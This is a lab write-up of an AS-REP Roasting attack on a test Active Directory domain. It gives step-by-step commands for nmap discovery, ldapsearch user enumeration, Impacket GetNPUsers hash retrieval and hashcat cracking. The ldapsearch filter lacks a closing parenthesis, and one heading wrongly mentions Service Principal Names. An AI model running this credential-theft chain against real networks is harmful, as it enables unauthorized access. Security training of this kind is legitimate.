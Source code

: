 # 🧨 AS-REP Roasting Attack Walkthrough

## 🧠 Overview

AS-REP Roasting is a technique that allows an attacker to retrieve encrypted authentication responses from Active Directory without valid credentials, but only if the target accounts have “Do not require Kerberos pre-authentication” enabled. The attacker can then attempt to crack these responses offline to recover plaintext passwords.
- **Tactic:** Credential Access
- **Technique:** [AS-REP Roasting (T1558.004)](https://attack.mitre.org/techniques/T1558/004/)
- **Objective:** Obtain plaintext passwords of service accounts with weak hashes to gain initial access.

---

## ⚙️ Lab Setup

- **Attacker Machine:** Kali Linux
- **Target Environment:** Windows Active Directory
  - 1x Domain Controller (Windows Server 2019)
  - 2x Windows 10 clients
- **SIEM:** Splunk Enterprise logging DC and endpoint activity

---

## 🚩 Red Team Steps

### 1. Discover Live Hosts on the subnet with Nmap
Identifies which machines are active and available for further reconnaissance.
```
nmap -sn 10.80.80.0/24 
```
![NMAP_SCAN](../assets/AS-REP/RED/1_NMAP_SCAN.png)
### 2. Scan the machines of interest for exposed services and ports
Reveals the Domain Controller and attack surface for the machine.
```
nmap -sV -O 10.80.80.2
```
![NMAP_DOMAIN](../assets/AS-REP/RED/2_NMAP_DOMAIN.png)
### 3. Enumerate Domain Users
The nmap scan would reveal services open to exploitation. In my case, the LDAP server was exposed. I then used ldapsearch to return every entry in the directory, formatted the list and saved it to a txt file.
```
ldapsearch -x -H ldap://10.80.80.2 -b "DC=ad,DC=lab" "(objectClass=user" | grep "sAMAccountName" | sort | cut -d " " -f2 > users.txt
```
![LDAP_SEARCH](../assets/AS-REP/RED/3_LDAP_SEARCH.png)
### 4. Use Impacket's getNPUsers to identify Users with Service Principal Names
This step identifies users who have pre-authentication disabled. These accounts are vulnerable to AS-REP Roasting. The tool will request TGTs and output hashes that can be cracked offline.
```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py ad.lab/ -usersfile users.txt -dc-ip 10.80.80.2
```
![GET_NPUSERS](../assets/AS-REP/RED/4_getNPUsers.png)
### 5. Crack the hash using Hashcat and a password list
After retrieving AS-REP hashes, I used Hashcat to crack them offline. These hashes use RC4-HMAC encryption and are compatible with mode 18200 in Hashcat.
```
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```
![HASHCAT](../assets/AS-REP/RED/5_HASHCAT.png)
Once cracked, I had low-level but valid credentials.

---

## 🏁 Gaining Initial Access

This phase of the attack demonstrates how an attacker with no existing credentials can gain a foothold in an Active Directory environment by taking advantage of accounts that have Kerberos pre-authentication disabled.

Using tools like ldapsearch, Impacket’s GetNPUsers.py, and Hashcat, I was able to enumerate domain users, identify vulnerable accounts, and crack a user’s password offline. With valid domain credentials, the attacker now has an initial presence inside the network.

This access provides a foundation for post-exploitation steps such as privilege escalation, lateral movement, and further enumeration within the environment.

---




















